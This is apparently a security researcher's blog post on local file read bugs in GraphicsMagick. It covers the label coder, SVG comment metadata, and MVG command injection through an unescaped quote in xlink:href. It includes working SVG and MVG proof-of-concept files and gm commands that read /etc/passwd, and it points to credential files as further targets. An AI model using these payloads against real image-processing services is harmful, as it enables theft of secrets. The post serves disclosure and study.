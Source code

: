 # Security of Data processing libraries Part 2


Common feature for modern web applications to save and process user files. It can be a avatar generation, file thumbnails, reports or screenshot generation. Open source data processing libraries are usually used for such purposes. There are number of known vulnerabilities at those libraries that can be used to get access to the sensitive informtation. At this article I'll show you how to get access to arbitary file on vulnerable system and lure process memory into your open arms.

<!--more-->

# Tragick

[ImageTragick](https://imagetragick.com/) - multiple vulnerabilities in ImageMagick. One of the vulnerabilities can lead to remote code execution (RCE) if you process user submitted images. The exploit for this vulnerability is being used in the wild. GraphicsMagick library successfully fixed RCE but what about another vulnerabilities? Let's take a look on exploit.svg used at CVE-2016-3717 and try to convert it with library.

```bash
gm convert exploit.svg output.png
```

```text
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'label:@/etc/passwd'
pop graphic-context
```

Library will return error `Unable to open file` but what if we will change coder to `label`? 

```bash
gm convert label:@/etc/passwd output.png
```

GraphicsMagick returns first line of file: `root:0:0:0:root:/root:/bin/bash`. So vulnerability exists and can be exploited on some coders. Let's take a look on Translate Text function. It have an interesting behavior: If text starts with '@' then try to replace it with the content of the file name which follows. 

```c
char *AmpersandTranslateText(const ImageInfo *image_info,
		Image *image, const char *formatted_text) {
/*
	If text starts with '@' then try to replace it with 
	the content of the file name which follows.
*/
  if ((*formatted_text == '@') && IsAccessible(formatted_text+1))
    {
      text=(char *) FileToBlob(formatted_text+1,&length,&image->exception);
      if (text == (char *) NULL)
        return((char *) NULL);
      TrimStringNewLine(text,length);
    }
  translated_text=TranslateText(image_info,image,text);
  if (text != (char *) formatted_text)
    MagickFreeMemory(text);

  return translated_text;
}
```

To exploit it malicious user shoud find all coders using it. Here we should take a little step back and return to Metadata. Please read [first part](https://d0ge.github.io/data-processing-libraries-part-one/) Translate function requests in attribute text when the blob is not open. This is really gross since it is assumed that the attribute is supplied by the user and the user intends for translation to occur.  However, 'comment' and 'label' attributes may also come from an image file and may contain arbitrary text.  As a crude-workaround, translations are only performed when the blob is not open. Is it secure to check blob state? It was found that SVG coder can be used to exploit it. We will skip a lot of C code and let's take a look on pseudocode:
- XML Parser end work
- CloseBlob(image) 
- MVG delegate start it work
- function SetImageAttribute(image,"comment",svg_info.comment) writes comment и title attributes to image.
- To exploit vulnerability malicious user should convert SVG to GIF, JPEG thumbnails with metadata information.

### Arbitary file read on image metadata
```xml
<?xml version="1.0" standalone="no"?>
<!--@/etc/passwd-->
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="1237px" height="1237px" version="1.1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink= " http://www.w3.org/1999/xlink"> <image xlink:href="http://www.google.com/images/branding/googlelogo/2x/googlelogo_color_272x92dp.png" x="0" y="0" height="137px" width="137px"/></svg>
```
![Arbitary file read on image metadata](/images/imagemetadata.gif)

# MVG coder file read

Another interesting coder is MVG and image processing function

```c
case 'i':
{
if (LocaleCompare((char *) name,"image") == 0)
  {
  MVGPrintf(svg_info->file,"image Copy %g,%g %g,%g '%s'\n",
          svg_info->bounds.x,svg_info->bounds.y,svg_info->bounds.width,
          svg_info->bounds.height,svg_info->url);
  MVGPrintf(svg_info-&gt;file,"pop graphic-context\n");
  break;
  }
break;
}
```
What if malicious user can inject custom TextPrimitive inside ImagePrimitive at MVG coder. Let's take a look on SVG coder. When it reads `xlink:href` attribute single qout  `'` is not properly escaped and any MVG commands can be injected. Function AnnotateImage(annotate.c) reads text from file with TranslateTextEx that accepts '@' as local file. 
Local file read vulnerability affects GraphicsMagick before 1.3.32. Multiple decoders that may use MVG syntaxis by default. To exploit this vulnerability untrusted user file should be converted to another format with command:

```bash
gm convert exploit.svg output.png
```

### Arbitary file read on SVG coder

```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
  "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="1237px" height="1237px" version="1.1"
	xmlns="http://www.w3.org/2000/svg" xmlns:xlink= "http://www.w3.org/1999/xlink">
	<image 
	xlink:href="http://www.google.com/images/branding/googlelogo/2x/googlelogo_color_272x92dp.png' text 128,128 '@/etc/passwd" 
	x="0" y="0" height="137px" width="137px"/>
</svg>
```


# Impact

We are using /etc/passd file for our PoC. The passwd file is not really very sensitive on modern systems. But real malicious user can get access to secrets and credentials stored at configuration files. Passwords are often baked into files such as Mercurial's hgrc file.  X11's .Xauthority file might be useful on an active desktop system.


# Acknowledgement

Thanks ImageMagick and GraphicsMagick teams for the coordination and bug fixing! 

